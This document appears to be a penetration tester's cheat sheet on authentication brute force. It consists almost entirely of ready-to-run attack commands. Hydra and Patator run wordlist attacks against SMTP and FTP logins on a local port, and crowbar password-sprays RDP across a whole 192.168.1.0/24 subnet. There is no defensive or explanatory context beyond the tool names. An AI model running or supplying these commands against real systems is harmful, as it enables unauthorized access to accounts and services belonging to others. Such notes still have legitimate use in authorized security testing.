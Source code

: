 # Authentication Brute Force




## Hydra

```
$ hydra -V -t 20 -f -I -L logins.lst -P /usr/share/john/password.lst 127.0.0.1 -s 8888 smtp
$ hydra -V -t 20 -f -I -l admin -P /usr/share/john/password.lst 127.0.0.1 -s 8888 ftp
```




## Patator

```
$ patator smtp_login host=127.0.0.1 port=8888 user=FILE0 password=FILE1 0=logins.lst 1=/usr/share/john/password.lst -x ignore:mesg='(515) incorrect password or account name' -x free=user:code=0
$ patator ftp_login host=127.0.0.1 port=8888 user=admin password=FILE0 0=/usr/share/john/password.lst -x ignore:mesg='Login incorrect.' -x free=user:code=0
```




## crowbar

* [https://github.com/galkan/crowbar](https://github.com/galkan/crowbar)



### RDP

```
$ crowbar -b rdp -s 192.168.1.0/24 -u snovvcrash -c 'Passw0rd!' -l ~/ws/logs/crowbar.log -o ~/ws/logs/crowbar.out
```
